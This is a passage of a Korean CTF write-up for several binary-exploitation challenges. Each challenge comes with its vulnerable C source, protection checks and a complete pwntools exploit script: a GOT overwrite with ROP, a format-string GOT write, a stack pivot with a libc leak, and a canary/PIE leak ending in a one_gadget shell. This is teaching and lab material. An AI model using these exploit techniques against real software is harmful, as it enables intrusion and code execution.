    puts("Kill switch enabled");
    puts("The car won't start if the kill switch is on");
    while(1){
        int select;
        menu();
        printf("> ");
        scanf("%d", &select);
        getchar();
        if (select == 1){
            printf("number : ");
            scanf("%d", &select);
            getchar();
            printf("value : ");
            scanf("%llu", &wire[select]);
        }else if (select == 2){
            startup();
        }else{
            puts("Grrrrr....!!!");
            return 1;
        }
    }
}
```

```c
[*] '/home/Wired_at_the_Vault/got'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

전역변수 wire의 원하는 위치에 아무 값을 쓸 수 있으며 startup 함수에서 ret까지 덮어쓰는 것이 가능한 overflow가 있다. 

여기서 주목점은 select에는 범위 검사가 없어 wire 범위 밖의, wire보다 앞/뒤에 있는 주소에도 접근이 가능하단 것이다.

또한, `info func`로 보면 코드에는 없던 gadget 함수가 있다.



```c
pwndbg> disass gadget
Dump of assembler code for function gadget:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     pop    rdi
   0x00000000004011ff <+9>:     ret
   0x0000000000401200 <+10>:    nop
   0x0000000000401201 <+11>:    pop    rbp
   0x0000000000401202 <+12>:    ret
```

```c
pwndbg> p &wire
$2 = (<data variable, no debug info> *) 0x404080 <wire>
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/Wired_at_the_Vault/g:
GOT protection: Partial RELRO | Found 7 GOT entries passing the filter
[0x404018] puts@GLIBC_2.2.5 -> 0x7ffff7e0ada0 (puts) ◂— endbr64
[0x404020] __stack_chk_fail@GLIBC_2.4 -> 0x401040 ◂— endbr64
[0x404028] setbuf@GLIBC_2.2.5 -> 0x7ffff7e11f30 (setbuf) ◂— endbr64
[0x404030] printf@GLIBC_2.2.5 -> 0x7ffff7dea680 (printf) ◂— endbr64
[0x404038] read@GLIBC_2.2.5 -> 0x401070 ◂— endbr64
[0x404040] getchar@GLIBC_2.2.5 -> 0x401080 ◂— endbr64
[0x404048] __isoc99_scanf@GLIBC_2.7 -> 0x7ffff7dec020 (__isoc99_scanf) ◂— endbr64
```

그리고 wire 뒤에는 got 주소들이 있다.

지금 이 바이너리는 canary가 있어 일반적이라면 canary leak을 해야 하지만, 우리는 got들에 접근할 수 있다.

canary 손상 시에는 `__stack_chk_fail`을 호출해서 종료 처리를 한다. 그렇다면, 이 함수의 got를 덮어씌우면 canary사 손상되어도 종료가 아닌 임의의 주소로 이동하게 할 수 있으므로 이를 이용하면 ROP가 가능하다.

### 최종 시나리오

## 풀이

```c
from pwn import *

e=ELF('./got')
#e=ELF('./g')
p=e.process()
libc=ELF('./libc.so.6')

puts_plt=e.plt['puts']
read_got=e.got['read']
pop_rdi=0x00000000004011fe
pop_rbp=0x0000000000401201
ret=0x40101a
binsh=0x1d8678

p.sendlineafter('> ', '1')
p.sendlineafter(': ', '-12')
p.sendlineafter(': ', str(e.sym['menu']))

payload=b'A'*0x118+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(e.sym['main'])

p.sendlineafter('> ', '2')
p.sendlineafter('!\n', payload)
p.recvuntil('3. Die XD\n')

libc_base=u64(p.recvline()[:-1].ljust(8,b'\x00'))-libc.sym['read']

log.success(f'libc_bse={hex(libc_base)}')

print(hex(libc.sym['system']+libc_base))

payload=b'A'*0x118+p64(ret)+p64(pop_rdi)+p64(binsh+libc_base)+p64(libc.sym['system']+libc_base)
p.sendlineafter('> ', '2')
p.sendlineafter(b'!\n',payload)

p.interactive()
```



---

# ch8

## 코드 분석

```c
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

void open_emergency_medicine(){
        char buf[30];
        int fd = open("flag" , O_RDONLY);
        read(fd,buf,20);
	        printf("%s\n",buf);
        close(fd);
}

void empty(){
        printf("There is no more medicine\n");
}
void exist(){
        printf("This medicine is located in the .fsb section.\n");
}

void init(){
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
}

void menu(){
        puts("1. search medicine");
        puts("2. take medicine");
        puts("3. quit");
        printf("> ");
}

int main(){
        init();
        int *exitst_or_not=(int *)exist;
        char buf[0x100];
        int num;
        puts("Welcome to BOF pharmacy");
        puts("What do you want?");
        while(1){
                menu();
                scanf("%d",&num);
                switch(num){
                        case 1:
                                memset(buf,0,0x100);
                                read(0, buf, 0x9f);
                                printf(buf);
                                if(strstr(buf, "Painkiller") || strstr(buf, "Morphine") || strstr(buf, "ibuprofen")){
                                        exitst_or_not = (int *)empty;
                                }
                                break;
                        case 2:
                                if(exitst_or_not != NULL){
                                        (*(void (*)()) exitst_or_not)();
                                }
                                else{
                                        printf("Choose medicine first\n");
                                }
                                break;
                        case 3:
                                printf("Goodbye\n");
                                return 0;
                                break;
                        default:
                                printf("Wrong input\n");
                                break;
                }

        }
        return 0;

}
```

```c
[*] '/home/Awakening_in_the_Dark/f'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

이번 문제는 특이하게 `open_emergency_medicine` 함수가 쉘이 아니라 flag 값을 준다. 아마 이게 비밀번호일 것이니 목표는 `open_emergency_medicine` 실행이다.

Partrial RELRO니 got에 덮는게 만만할 것 같다.

```c
memset(buf,0,0x100);
read(0, buf, 0x9f);
printf(buf);
```

memset을 하기 때문에 BOF는 안터진다. 하지만 printf에서 포맷 스트링 없이 그대로 buf를 출력하므로, FSB를 할 수 있다.

FSB는 Format String Bug의 약자로, 간단히 말하면 printf에서 `%d` `%x` `%p` `%n` 같은 포맷 스트링을 그대로 출력하면 원래 출력되면 안되는 다른 메모리의 값들을 뱉어낸다.

그리고 특수한 것으로 `%10c` 면 10글자 판정이고 `%n`의 경우, 해당 포맷스트링 이까지 출력된 문자열의 길이를 반환하므로 임의 주소 쓰기로 활용이 가능하다. 그리고 매개변수 접근 시 `%1$x`면 1번, `%4$x` 면 4번.. 이런 식이다. 이를 이용해 보자

## 풀이

우선 offset 확인을 위해 %p를 여러개 넣고 결과를 보면 다음과 같다.



`0x7025207025207025`는 문자열로 “%p %p….” 이니 buf는 8번이다.

그리고`open_emergency_medicine`의 주소는 `0x401256` 이다.

이걸로 FSB를 짜보자

```c
from pwn import *

#e=ELF('./f')
e=ELF('./fsb')
p=e.process()

win=e.sym['open_emergency_medicine']

p.sendlineafter('> ', '1')
payload=b''
payload+=b'%12$hn'
payload+=b'%64c'+b'%13$hn'
payload+=b'%4630c'+b'%14$hn' ## 4694 - 64

payload=payload.ljust(32,b'A')

payload+=p64(e.got['printf']+4)
payload+=p64(e.got['printf']+2)
payload+=p64(e.got['printf'])

p.sendline(payload)
p.interactive()
```



마지막에 출력된 `fsbeeee` 가 flag다

코드를 좀 설명하면 `'%12$hn'`, `'%13$hn'`, `'%14$hn'`는 각각 printf의  got+4, got+2, got의 주소다.

한번에  `0x401256`이라는 길이의 문자열을 한번에 넣으면 에러가 날 수 있어서 이렇게 나누어서 넣어준다.

상위는 0으로 체워야 하니 %c 없이 바로 %12$hn을, 이후 0x40이 들어가야 하니 %64c, 이후 앞의 64개가 이미 있는 상태에서 0x1256이 들어가야 하니 0x1256-0x40=0x1216=4630이므로 %4630c 를 하고 %14$hn을 넣는다.

여담으로, flag 파일을 권한 때문에 복제한 바이너리에서는 안 열리기 때문에 나오지 않는다.
그걸 모르고 계속 맞는 코드 여러번 갈아엎었다….

---

# ch9

## 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int loop = 0;

void init(){
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
}

void gadget() {
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}

int main(void)
{
    init();
    char buf[0x30];

    printf("Hello, Sir\n");
    printf("This laboratory is currently closed.\n");
    printf("Please leave a message, and I will forward it to the person in charge of the laboratory.\n");

    if (loop)
    {
        puts("Goobye, Sir");
        exit(-1);
    }
    loop = 1;

    read(0, buf, 0x70);
    return 0;
}
```

```c
[*] '/home/On_the_Edge_of_Time/pivot'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

일단 canary가 없고 read에서 BOF가 발생한다. 하지만 FULL RELRO라 got overwrite는 불가능하다.

### 풀이 방법

우리는 libc leak을 해야 system 호출이 가능하다.

그렇다면 이전 문제들에서 했던 것처럼 puts(read got) 를 이용해 leak을 해야 한다. 그런데 지금 문제에서는 그렇게 leak 한 이후 다시 buf에 입력을 받을 수 없어 무용지물이다. 이런 문제에서 보통 해결하는 방법은 간단한데, puts.plt 뒤에 main함수의 주소를 넣으면 된다. 하지만 이번 문제는 loop라는 변수를 두어 main으로 돌아가면 검사에 걸린다. ...하지만 그냥 ret을 read부분으로 하면 된다. 하지만 여기서, 그냥 jump하면 rbp가 깨져서 정상적으로 입력이 안된다.

이럴 때 pivot을 사용하는데 간단히 말하면 rbp에 적당한 주소를 넣어서 깨지는 것을 막는 것이다.

그러면 다시 read가 가능해지므로, leak한 base주소로 pop rdi binsh system하면 된다.

## 풀이

```c
from pwn import *

e=ELF('./pivot')
p=e.process()
libc=ELF('./libc.so.6')

puts_plt=e.plt['puts']
read_got=e.got['read']
pop_rdi=0x00000000004011e5

ret=0x4011e6
binsh=0x1d8678

payload=b'A'*0x30+p64(e.bss()+0x900)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(0x0000000000401260)
p.send(payload)

p.recvuntil('Please leave a message, and I will forward it to the person in charge of the laboratory.\n')
libc_base=u64(p.recvline()[:-1].ljust(8,b'\x00'))-libc.sym['read']
log.success(hex(libc_base))
payload=b'A'*0x38+p64(ret)+p64(pop_rdi)+p64(binsh+libc_base)+p64(libc.sym['system']+libc_base)
p.send(payload)
p.interactive()
```



---

# ch10

## 코드

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
/*
    Full mitigation
    Stack is unsafe & fprintf is Substitutional way of print string
    But you have writable place
*/
int all_time;
int OTP_flag = 0;
int count;
int mode;
FILE *access_log;

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void gadget() {
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}
char print_checkpass() {
    puts("Enter your password");
    printf("Password : ");
    return 0;
}

char check_passwd(char *passwd, int mode) {
    print_checkpass();
    int acss_ok = -1;
    access_log = fopen("access.log", "a");

    read(0, passwd, 100);
    // passwd[strlen(passwd)] = '\x00';
    switch(mode) {
    case 0:
        fprintf(access_log, "Lord Of BOF : ");
        fprintf(access_log, passwd);
        break;
    case 2:
        // Doctor
        fprintf(access_log, "   Doctor   : ");
        fprintf(access_log, passwd);
        // printf(passwd);
        break;
    default:
        fprintf(access_log, "Undefined User, Error\n");
        // break;
        return 0;
    }

    if (!strncmp(passwd, "9a9f3a5a6230124a1770cc20097db3713454343a", 40)) {
        // lordofbof sha1
        acss_ok = 0;
        fprintf(access_log, " -> Correct!");
        // return 0;
    } else if(!strncmp(passwd, "1f0160076c9f42a157f0a8f0dcc68e02ff69045b", 40)) {
        // doctor sha1
        acss_ok = 2;
        fprintf(access_log, " -> Correct!");
        // return 1;
    } else {
        acss_ok = -1;
        fprintf(access_log, " -> Incorrect!");
        // return 3;
    }

    fprintf(access_log, "\n");
    fclose(access_log);
    return acss_ok;
}

char check_id(char *str_adr) {
    printf("Your ID : ");
    read(0, str_adr, 0x20);
    if (!strncmp(str_adr, "Lord Of Buffer overflow", 23)) {
        return 0;
    } else if(!strncmp(str_adr, "Zombie", 6)) {
        return 1;
    } else if(!strncmp(str_adr, "Doctor", 6)) {
        return 2;
    } else {
        return 3;
    }
}

int main(int argc, char const *argv[]) {
    initialize();
    // stack high
    char welcome[28] = "For vaccine, Enter One Time Passcode";
    char id_number[64];
    char password[0x40];
    count = 0;
    int chk_pw = -1;
    printf(welcome);
    puts("");
    printf("Enter ID Number");
    puts("");
    do {
        int chk = check_id(id_number);
        // only leak
        switch(chk) {
        case 0:
            // LOB
            printf("Lord Of BOF! ");
            chk_pw = check_passwd(password, 0);
            break;
        case 1:
            // Zombie
            printf("Zombie! ");
            puts("You Don't need Vaccine~");

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Zombie : Denied");
            fclose(access_log);
            break;
        case 2:
            // Doctor
            printf("Doctor! ");
            puts("You can get Vaccine if you pwn");
            chk_pw = check_passwd(password, 2);
            break;
        case 3:
            printf(id_number);
            printf("!Invalid!\nTry Again\n");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Invalid ID\n");
            fclose(access_log);
            break;
        default:
            puts(id_number);
            printf("Error! Enter Your ID Again!");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "ID Input Error\n");
            fclose(access_log);
            break;
        }

        if(chk_pw == -1) {
            puts(password);
        } else if(chk_pw == 0) {
            chk_pw = 0;
        } else {
            goto get_vaccine;
        }
        count++;
        if (count == 3) {
            puts("BOOM!! Find your ID");
            return 0;
        }
    } while (1);

get_vaccine:
    puts("No Vaccine");

    //     printf("adsf");
    return 0;
}
```

```bash
File:     /home/The_Cure_Within_Reach/f
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

역시나 이번것도 뭐가 많지만 취약점은 명확하다.

1. `printf(welcome);`
    
    대놓고 FSB다
    
2. `char check_passwd`
    
    passwd는 0x40(64)지만 100만큼 입력받는다.
    

이걸로 익스 방향은 다 나왔다. FSB로 PIE, libc, canary leak 하고 poprdi binsh system이다.

## 풀이

### 동적 분석


위 화면에서 입력은 %14$p라는 것을 알 수 있고, canary는 %31$p, libc는 %33$p, PIE는 %35$p 로 얻을 수 있다.

그리고 아래 화면은 password 입력에서 A*0x50 을 입력한 결과로, BOF가 가능하단 걸 보여준다.



### 풀이

```bash
from pwn import *

e=ELF('./final')
#e=ELF('./f')
p=e.process()
libc=ELF('./libc.so.6')

one_gadgets=[0x509d0,0x509d7,0xebbc5,0xebbc8,0xebc18,0xebc20,0xebc22,0xebc78,0xebc83,0x10e06a]

p.sendlineafter(': ', '%31$p|%33$p|%35$p|')
canary=int(p.recvuntil('|')[:-1],16)
libc_base=int(p.recvuntil('|')[:-1],16)-0x29d90
pie_base=int(p.recvuntil('|')[:-1],16)-0x15c8

pop_rdi=libc_base+0x000000000002a3e5
ret=libc_base+0x0000000000029659
binsh=libc_base+0x1d8678
system=libc_base+libc.sym['system']
payload=b'A'*0x48+p64(canary)+p64(e.bss()+pie_base+0x200)+p64(libc_base+one_gadgets[4])

p.sendafter(': ', 'Doctor')

print(hex(canary))
print(hex(libc_base))
print(hex(pie_base))

p.sendafter(': ', payload)
p.send('A')

p.interactive()
```



여기서 이번에는 rbp를 아무 값이 아니라 bss로 잡았는데, 그 이유는 one_gadget의 사용 조건에 있다.

one_gadget는 libc에서 shell을 바로 실행하는 부분의 주소를 말하는데, 보통 레지스터의 조건을 맞춰야 한다.

해당 libc들에서 onegadget의 조건 중 사용한 `0xebc18` 의 경우 [rbp-0x78], [rbp-0x70]이 0이고 rbp-0x78의 주소가 쓰기 가능이여야 하기 때문에 가장 적절한 bss를 넣었다.



다 풀고 `get_vaccine` 실행하니 엔딩크레딧도 있다.